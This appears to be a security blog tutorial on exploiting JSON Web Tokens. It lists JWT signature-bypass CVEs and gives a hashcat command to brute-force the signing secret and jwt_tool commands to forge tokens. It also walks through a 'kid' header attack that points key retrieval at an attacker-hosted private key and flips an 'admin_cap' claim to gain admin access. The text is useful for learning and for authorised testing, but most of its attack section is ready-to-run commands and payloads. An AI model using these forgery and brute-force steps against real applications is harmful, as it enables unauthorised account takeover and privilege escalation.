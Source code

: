 [back](/)

### JSON Web Tokens exploitation

JSON Web Tokens exploitation

What JSON Web Token (JWT) is? It is an open standard RFC 7519 for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. 
JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: jwt.io. 

The JWT is divided into three sections, separated by a dot "." **HEADER.PAYLOAD.SIGNATURE**

To work with the JWT, [jwt_tool](https://github.com/ticarpi/jwt_tool) utility is best suited, which will allow exploiting the most popular vulnerabilities:

```
(CVE-2015-2951) The alg=none signature-bypass vulnerability
(CVE-2016-10555) The RS/HS256 public key mismatch vulnerability
(CVE-2018-0114) Key injection vulnerability
(CVE-2019-20933/CVE-2020-28637) Blank password vulnerability
(CVE-2020-28042) Null signature vulnerability
```

In case there are no vulnerabilities, you can try to guess or brute the JWT encryption password and try to collect a new key with changed values. For example, set the flag **"is_admin":"true"** or something similar. In order to generate the appropriate JWT, that will be suitable for the application, a secret key is required.

To brute force a JWT password:

```
hashcat -a 0 -m 16500 jwthash.txt wordlist.txt
```

![Image](/img/jwt/1.png)

To parse JWT, you can use [jwt.io](https://jwt.io/) site or the [jwt_tool.py](https://github.com/ticarpi/jwt_tool) utility:

![Image](/img/jwt/2.png)

![Image](/img/jwt/2.5.png)

To generate JWT:

```
python3 jwt_tool.py -b -S hs256 -p 'keypass' $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"data": {"username": "jaki"}}' | base64 -w0).
```

An example of an attack on a JWT, where the HEADER section uses reading the private key, to decrypt the token:

```
HEADER:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key" --- change to attacker ip
}

PAYLOAD

{
  "username": "root",
  "email": "1@test.ru",
  "admin_cap": false --- change on true 
}
```

In this example, the attacker can try to replace the ip-address with his own, having previously created a pair of keys:

```
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
```

Initially, access to the admin panel is closed due to the set flag, in PAYLOAD: "admin_cap": false.

![Image](/img/jwt/3.png)

There are two ways to encrypt a JWT with the "admin_cap": true flag and the "kid" HEADER key:

1. Using the site https://jwt.io/
2. Or using jwt_tool.py

```
python3 jwt_tool.py CURRENT_JWT -T -S rs256 -pr /tmp/keys/privKey.key
```

![Image](/img/jwt/4.png)

![Image](/img/jwt/4.5.png)

Before sending the JWT application, you need to start the http server to access the private key:

![Image](/img/jwt/5.png)

The attacker gained access to the admin panel

![Image](/img/jwt/6.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)